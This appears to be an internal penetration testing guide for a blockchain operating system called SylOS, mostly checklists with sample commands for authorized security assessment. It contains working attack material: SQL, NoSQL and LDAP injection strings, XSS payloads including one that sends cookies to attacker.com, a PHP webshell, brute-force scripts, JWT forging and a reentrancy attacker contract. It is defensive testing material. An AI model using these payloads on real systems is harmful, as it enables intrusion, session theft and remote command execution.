

# SylOS Penetration Testing Guide

## Overview

This comprehensive penetration testing guide provides systematic methodologies, procedures, and best practices for conducting security assessments of the SylOS blockchain operating system. It covers all attack surfaces including web applications, mobile applications, smart contracts, blockchain networks, and infrastructure components.

## Table of Contents

1. [Testing Methodology](#testing-methodology)
2. [Pre-Engagement Activities](#pre-engagement-activities)
3. [Web Application Penetration Testing](#web-application-penetration-testing)
4. [Mobile Application Penetration Testing](#mobile-application-penetration-testing)
5. [Smart Contract Penetration Testing](#smart-contract-penetration-testing)
6. [Blockchain Network Testing](#blockchain-network-testing)
7. [API Security Testing](#api-security-testing)
8. [Infrastructure Penetration Testing](#infrastructure-penetration-testing)
9. [Social Engineering Testing](#social-engineering-testing)
10. [Reporting and Remediation](#reporting-and-remediation)

## Testing Methodology

### Testing Framework

SylOS follows the OWASP Testing Guide v4.0 and NIST SP 800-115 framework:

#### 1. Information Gathering
- Passive reconnaissance
- Active reconnaissance
- OSINT collection
- Social media analysis

#### 2. Threat Modeling
- Attack surface identification
- Asset prioritization
- Threat actor analysis
- Risk assessment

#### 3. Vulnerability Analysis
- Automated scanning
- Manual testing
- Configuration review
- Code analysis

#### 4. Exploitation
- Controlled exploitation
- Proof of concept development
- Impact assessment
- Lateral movement

#### 5. Post-Exploitation
- Persistence mechanism analysis
- Data exfiltration simulation
- Privilege escalation
- Remediation validation

### Testing Phases



## Pre-Engagement Activities

### Scope Definition

#### In-Scope Components
- [ ] **Web Applications**
  - [ ] Main web interface
  - [ ] Admin panels
  - [ ] API endpoints
  - [ ] Authentication systems

- [ ] **Mobile Applications**
  - [ ] iOS application
  - [ ] Android application
  - [ ] Backend APIs
  - [ ] Push notification services

- [ ] **Smart Contracts**
  - [ ] Deployed contracts
  - [ ] Contract interactions
  - [ ] Cross-chain bridges
  - [ ] Token contracts

- [ ] **Blockchain Network**
  - [ ] Node security
  - [ ] Network protocols
  - [ ] Consensus mechanisms
  - [ ] P2P communications

- [ ] **Infrastructure**
  - [ ] Network infrastructure
  - [ ] Cloud services
  - [ ] Database systems
  - [ ] Monitoring systems

#### Out-of-Scope Components
- [ ] Physical security
- [ ] Social engineering
- [ ] DoS testing (unless specifically requested)
- [ ] Third-party integrations
- [ ] Client-side applications not provided

### Rules of Engagement

#### Testing Constraints
- [ ] **Time Constraints**
  - [ ] Testing window defined
  - [ ] Peak hours avoided
  - [ ] Maintenance windows identified
  - [ ] Emergency procedures defined

- [ ] **Impact Limitations**
  - [ ] No data modification
  - [ ] No service disruption
  - [ ] No persistence mechanisms
  - [ ] Proper rollback procedures

#### Communication Protocols
- [ ] **Point of Contact**
  - [ ] Primary contact assigned
  - [ ] Escalation procedures
  - [ ] Communication channels
  - [ ] Response time expectations

## Web Application Penetration Testing

### Authentication Testing

#### Brute Force Testing
```bash
# Hydra brute force example
hydra -L users.txt -P passwords.txt <target> http-post-form "/login:username=^USER^&password=^PASS^:Invalid"

# Custom script for testing
#!/bin/bash
for user in $(cat users.txt); do
  for pass in $(cat passwords.txt); do
    response=$(curl -s -o /dev/null -w "%{http_code}" \
      -X POST https://sylos.example.com/api/login \
      -H "Content-Type: application/json" \
      -d "{\"username\":\"$user\",\"password\":\"$pass\"}")
    if [ "$response" != "401" ]; then
      echo "Valid credentials found: $user:$pass"
    fi
  done
done
```

#### Session Management Testing
- [ ] **Session Token Analysis**
  - [ ] Token entropy analysis
  - [ ] Token predictability
  - [ ] Session fixation testing
  - [ ] Cross-session contamination

- [ ] **Cookie Security**
  - [ ] Secure flag verification
  - [ ] HttpOnly flag verification
  - [ ] SameSite attribute testing
  - [ ] Domain path validation

#### Multi-Factor Authentication Testing
- [ ] **MFA Bypass Testing**
  - [ ] MFA implementation flaws
  - [ ] Fallback mechanisms
  - [ ] Recovery process security
  - [ ] SMS/Email interception

### Input Validation Testing

#### Injection Attacks
- [ ] **SQL Injection**
```sql
-- Manual SQL injection testing
' OR '1'='1' --
' UNION SELECT NULL--
'; WAITFOR DELAY '00:00:10'--
'; EXEC master..xp_cmdshell 'dir'--
```

- [ ] **NoSQL Injection**
```javascript
// NoSQL injection testing
{"$ne": null}
{"$where": "this.username == 'admin'"}
{"$regex": ".*"}
```

- [ ] **LDAP Injection**
```
)(uid=*))(|(password=*
)(|(password=*
)(&(password=*
```

#### Cross-Site Scripting (XSS)
- [ ] **Reflected XSS**
```javascript
<script>alert('XSS')</script>

javascript:alert('XSS')
<svg onload=alert('XSS')>
```

- [ ] **Stored XSS**
```html
<!-- Stored XSS payloads -->
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

```

- [ ] **DOM-based XSS**
```javascript
// DOM XSS sources and sinks
document.write()
innerHTML()
eval()
setTimeout()
setInterval()
```

### Access Control Testing

#### Authorization Testing
- [ ] **Horizontal Privilege Escalation**
```bash
# Testing IDOR vulnerabilities
curl -X GET "https://sylos.example.com/api/user/123/profile" \
  -H "Authorization: Bearer <token1>"  # Should return user 123's profile

curl -X GET "https://sylos.example.com/api/user/456/profile" \
  -H "Authorization: Bearer <token1>"  # Should return 403, not 456's profile
```

- [ ] **Vertical Privilege Escalation**
```bash
# Testing admin access
curl -X GET "https://sylos.example.com/api/admin/users" \
  -H "Authorization: Bearer <regular_user_token>"  # Should return 403
```

#### Business Logic Testing
- [ ] **Workflow Bypass**
- [ ] **Race Conditions**
- [ ] **Price Manipulation**
- [ ] **Quantity Validation**

### File Upload Testing
- [ ] **Malicious File Upload**
```php
<?php
// PHP webshell upload
system($_GET['cmd']);
?>
```

- [ ] **File Type Validation Bypass**
- [ ] **File Size Limitations**
- [ ] **Path Traversal**

### CSRF Testing
- [ ] **CSRF Token Testing**
- [ ] **SameSite Cookie Testing**
- [ ] **Referer Validation**

## Mobile Application Penetration Testing

### Static Analysis

#### Code Analysis
- [ ] **iOS Analysis**
```bash
# iOS app analysis
otool -L <app_binary>  # Library dependencies
class-dump -H <app_binary>  # Objective-C class dump
frida -U -f <app_bundle> -l ssl-kill-switch.js  # SSL pinning bypass
```

- [ ] **Android Analysis**
```bash
# Android app analysis
aapt dump xmltree <app.apk> AndroidManifest.xml  # Manifest analysis
jadx <app.apk>  # Decompile to Java
apktool d <app.apk>  # Extract resources
```

#### Certificate Pinning
- [ ] **SSL Kill Switch Testing**
- [ ] **Certificate Pinning Bypass**
- [ ] **Custom Certificate Validation**

### Dynamic Analysis

#### Network Traffic Analysis
```bash
# iOS network analysis
# Use burp suite or mitmproxy
# Configure device proxy settings
# SSL traffic decryption

# Android network analysis
# Install Burp's CA certificate
# Configure proxy settings
# Monitor API communications
```

#### Runtime Manipulation
```python
# Frida script for dynamic analysis
import frida

# Hook JavaScript functions
script = """
Java.perform(function() {
    var MyClass = Java.use("com.sylos.MyClass");
    MyClass.secureMethod.implementation = function(param) {
        console.log("Hooked method called with: " + param);
        return this.secureMethod(param);
    };
});
"""
```

### Secure Storage Testing
- [ ] **Data at Rest Analysis**
- [ ] **Keychain/Keystore Review**
- [ ] **Database Security**
- [ ] **Log File Analysis**

## Smart Contract Penetration Testing

### Code Analysis

#### Static Analysis Tools
- [ ] **Slither Analysis**
```bash
# Slither smart contract analysis
slither contracts/MyContract.sol --print summary --print human-summary
slither contracts/MyContract.sol --print variable-order
slither contracts/MyContract.sol --print contract-summary
```

- [ ] **MythX Analysis**
```python
# MythX analysis
import mythx_cli.client
client = mythx_cli.client.Client()
result = client.analyzeSolidityFile("MyContract.sol")
```

- [ ] **Securify Analysis**
```bash
# Securify analysis
securify contracts/MyContract.sol
```

### Vulnerability Testing

#### Common Vulnerabilities
- [ ] **Reentrancy Testing**
```solidity
// Reentrancy test contract
contract ReentrancyAttacker {
    MyContract public target;
    uint256 public amount = 1 ether;
    
    function attack() external payable {
        target.donate.value(msg.value)(address(this));
        target.withdraw(amount);
    }
    
    function() external payable {
        if (msg.sender == address(target)) {
            target.withdraw(amount);
        }
    }
}
```

- [ ] **Integer Overflow/Underflow**
```solidity
// Test for overflow vulnerabilities
function testOverflow() public {
    uint256 max = 2**256 - 1;
    max = max + 1; // Should revert
}
```

- [ ] **Access Control Issues**
```solidity
// Test unauthorized access
function testUnrestrictedFunction() public {
    // This should be restricted
    owner = msg.sender;
}
```

#### Gas Limit Testing
- [ ] **Denial of Service**
```solidity
// Gas limit DoS test
function expensiveLoop() public {
    for(uint256 i = 0; i < 10000; i++) {
        // Expensive operation
    }
}
```

### Economic Attack Testing
- [ ] **Flash Loan Attacks**
- [ ] **Price Oracle Manipulation**
- [ ] **Time-based Attacks**
- [ ] **Front-running Protection**

## Blockchain Network Testing

### Node Security

#### Node Configuration
- [ ] **API Security**
```bash
# Test node API security
curl -X POST http://node:8545 \
  -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","method":"personal_listAccounts","params":[],"id":1}'
```

- [ ] **RPC Security**
- [ ] **P2P Security**
- [ ] **Consensus Security**

### Network Attacks
- [ ] **Eclipse Attacks**
- [ ] **Sybil Attacks**
- [ ] **51% Attacks**
- [ ] **Selfish Mining**

## API Security Testing

### REST API Testing

#### Authentication Testing
- [ ] **JWT Security**
```bash
# JWT testing
# Weak secret
python3 -c "import jwt; print(jwt.encode({'user': 'admin'}, 'secret', algorithm='HS256'))"

# None algorithm exploitation
python3 -c "import jwt; print(jwt.encode({'user': 'admin'}, '', algorithm='none'))"
```

- [ ] **OAuth Testing**
- [ ] **API Key Security**
- [ ] **Token Leakage**

#### Parameter Pollution
- [ ] **HTTP Parameter Pollution**
```
# Test parameter pollution
GET /api/users?id=1&id=2
POST /api/users?id=1&id=2
```

### GraphQL Testing
- [ ] **Introspection Testing**
- [ ] **Query Depth Limiting**
- [ ] **Batch Attacks**
- [ ] **Schema Enumeration**

## Infrastructure Penetration Testing

### Network Testing

#### Port Scanning
```bash
# Nmap scanning
nmap -sS -O -sV target_network/24
nmap -sU target_network/24
nmap --script vuln target_network/24
```

#### Service Enumeration
- [ ] **Web Service Enumeration**
- [ ] **Database Enumeration**
- [ ] **SSL/TLS Testing**
- [ ] **SMB Enumeration**

### Wireless Security
- [ ] **WEP/WPA Testing**
- [ ] **Enterprise WiFi Testing**
- [ ] **Evil Twin Attacks**

## Social Engineering Testing

### Phishing Campaigns
- [ ] **Email Phishing**
- [ ] **SMS Phishing**
- [ ] **Voice Phishing**
- [ ] **Spear Phishing**

### Physical Security
- [ ] **Tailgating**
- [ ] **USB Drop Testing**
- [ ] **Badge Cloning**
- [ ] **Dumpster Diving**

## Advanced Testing Techniques

### Blockchain-Specific Attacks

#### Cross-Chain Bridge Testing
```solidity
// Bridge contract testing
contract BridgeAttacker {
    Bridge public bridge;
    
    function exploit() external {
        // Test bridge vulnerabilities
        // Replay attacks
        // Double spend attacks
    }
}
```

#### MEV (Maximal Extractable Value) Testing
- [ ] **Front-running Detection**
- [ ] **Back-running Analysis**
- [ ] **Sandwich Attack Testing**
- [ ] **Flash Loan Arbitrage**

### Smart Contract Gas Optimization Testing
- [ ] **Gas Consumption Analysis**
- [ ] **Block Gas Limit Testing**
- [ ] **Denial of Service via Gas**

## Automated Testing Tools

### Web Application Tools
- [ ] **Burp Suite Professional**
- [ ] **OWASP ZAP**
- [ ] **Acunetix**
- [ ] **Nessus**

### Mobile Application Tools
- [ ] **MobSF (Mobile Security Framework)**
- [ ] **QARK (Quick Android Review Kit)**
- [ ] **CVE-2019-3568 Scanner**
- [ ] **Frida Toolkit**

### Smart Contract Tools
- [ ] **Slither**
- [ ] **MythX**
- [ ] **Securify**
- [ ] **Manticore**

### Infrastructure Tools
- [ ] **Nessus**
- [ ] **OpenVAS**
- [ ] **Nexpose**
- [ ] **Qualys**

## Reporting and Remediation

### Vulnerability Classification

#### CVSS Scoring
- [ ] **Base Score Calculation**
- [ ] **Temporal Score**
- [ ] **Environmental Score**
- [ ] **Risk Rating**

#### Exploitability Metrics
- [ ] **Attack Vector**
- [ ] **Attack Complexity**
- [ ] **Privileges Required**
- [ ] **User Interaction**

### Report Structure

#### Executive Summary
```
- High-level overview
- Risk assessment
- Business impact
- Key recommendations
```

#### Technical Details
```
- Vulnerability descriptions
- Proof of concept
- Impact analysis
- Remediation steps
```

#### Remediation Guidance
```markdown
# Critical: SQL Injection in Login Form

## Description
The login form is vulnerable to SQL injection attacks via the username parameter.

## Proof of Concept
```sql
' OR '1'='1' --
```

## Impact
- Unauthorized access to user accounts
- Database compromise
- Data exfiltration

## Remediation
1. Implement parameterized queries
2. Input validation
3. Least privilege database access
4. Web Application Firewall (WAF)

## Verification
Execute the following test after remediation:
```bash
curl -X POST https://sylos.example.com/login \
  -d "username=' OR '1'='1' --&password=any"
# Should return 400 Bad Request
```
```

### Retesting Procedures
- [ ] **Remediation Verification**
- [ ] **Re-test Scope Definition**
- [ ] **Regression Testing**
- [ ] **Final Validation**

## Continuous Security Testing

### Integration with CI/CD
```yaml
# GitHub Actions security testing
name: Security Testing
on: [push, pull_request]

jobs:
  security-test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - name: Run Security Scans
        run: |
          npm audit
          snyk test
          bandit -r . -f json -o security-report.json
```

### Monitoring and Alerting
- [ ] **Vulnerability Monitoring**
- [ ] **Security Dashboards**
- [ ] **Alert Configuration**
- [ ] **Response Procedures**

## Compliance Considerations

### Regulatory Requirements
- [ ] **GDPR Compliance**
- [ ] **CCPA Requirements**
- [ ] **SOX Compliance**
- [ ] **PCI DSS**

### Industry Standards
- [ ] **ISO 27001**
- [ ] **NIST Cybersecurity Framework**
- [ ] **OWASP Standards**
- [ ] **SANS Top 25**

## Conclusion

This penetration testing guide provides comprehensive methodologies for security assessment of the SylOS blockchain operating system. Regular execution of these testing procedures ensures the platform maintains strong security posture against evolving threats.

**Important Notes**:
- Always obtain proper authorization before testing
- Follow responsible disclosure practices
- Document all findings with evidence
- Provide actionable remediation guidance
- Ensure proper cleanup after testing

---

**Document Version**: 1.0  
**Last Updated**: 2025-11-10  
**Next Review Date**: 2025-12-10  
**Classification**: Internal Use